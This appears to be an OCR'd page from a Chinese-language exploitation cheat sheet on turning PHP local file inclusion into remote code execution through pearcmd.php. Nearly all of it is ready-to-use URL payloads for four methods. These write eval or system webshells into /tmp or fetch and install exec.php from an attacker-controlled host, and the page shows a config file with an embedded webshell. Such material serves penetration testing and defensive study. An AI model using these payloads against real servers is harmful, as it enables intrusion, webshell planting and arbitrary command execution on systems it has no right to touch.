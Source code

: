 PEAR是用于可重用PHP组件的框架和分发系统。默认情况下，`pearcmd.php`安装在Docker PHP镜像的每个hub.docker.com中的/usr/local/lib/php/pearcmd.php。

`pearcmd.php`文件使用`$_SERVER['argv']`获取其参数。此攻击要工作，必须在PHP配置（`php.ini`）中将`register_argc_argv`指令设置为`On`。

```ini
register_argc_argv = On
```

有几种方法可以利用它。

- 方法1：config create

  ```ps1
  /vuln.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET['cmd'])?>+/tmp/exec.php
  /vuln.php?file=/tmp/exec.php&cmd=phpinfo();die();
  ```

- 方法2：man_dir

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+
  /vuln.php?file=/tmp/exec.php&c=id
  ```

  创建的配置文件包含webshell。

  ```php
  #PEAR_Config 0.9
  a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
  ```

- 方法3：download

  需要外部网络连接。

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php
  /vuln.php?file=exec.php&c=id
  ```

- 方法4：install

  需要外部网络连接。

  注意`exec.php`位于`/tmp/pear/download/exec.php`。

  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php
  /vuln.php?file=/tmp/pear/download/exec.php&c=id
  ```



1. **Method 2: man_dir**：此方法通过创建包含webshell的配置文件实现攻击。

   - 攻击步骤：

     1. 通过访问`/vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+`，创建配置文件。
     2. 接着，通过访问`/vuln.php?file=/tmp/exec.php&c=id`执行系统命令。
